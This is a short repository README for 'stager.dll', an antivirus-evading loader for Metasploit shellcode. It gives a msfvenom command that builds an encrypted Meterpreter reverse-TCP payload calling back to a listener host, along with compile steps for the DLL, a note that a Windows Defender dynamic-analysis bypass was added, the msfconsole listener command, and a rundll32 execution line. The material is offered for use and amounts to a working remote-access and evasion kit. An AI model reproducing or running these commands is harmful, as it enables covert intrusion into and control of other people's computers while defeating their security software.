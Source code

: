 # stager.dll
Code from this article: [https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/](https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/)  

**HOW TO:**  
Get MSF5 from official repository (master branch - no official release yet at this time): [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)  

Generate payload that suits your needs, ex:  
```ruby msfvenom -p windows/meterpreter/reverse_tcp_rc4 EXIT_FUNC=PROCESS LHOST-192.168.1.24 LPORT=443 RC4PASSWORD=GeekIsChic --encrypt aes256 --encrypt-iv E7a0eCX76F0YzS4j --encrypt-key 6ASMkFslyhwXehNZw048cF1Vh1ACzyyR -f c -o /tmp/meterpreter.c```  

Replace the payload in stager.cpp  and build the DLL on a Windows machine with ```cl /LD /MT /EHa stager.cpp aes.cpp```  

![https://phackt.com/public/images/stager/stager2.png](https://phackt.com/public/images/stager/stager2.png)  

*N.B: I added a dynamic analysis bypass taken from this great article: [https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf](https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf)*  

Now update meterpreter.rc and run:
```
ruby msfconsole -r <path_to_repo>/meterpreter.rc
```

Then run ```rundll32 stager.dll,Exec```  

![https://phackt.com/public/images/stager/stager1.png](https://phackt.com/public/images/stager/stager1.png)  



Soon i will write how to create a macro with an obfuscated powershell DLL dropper (Invoke-Obfuscation). Keep in touch.
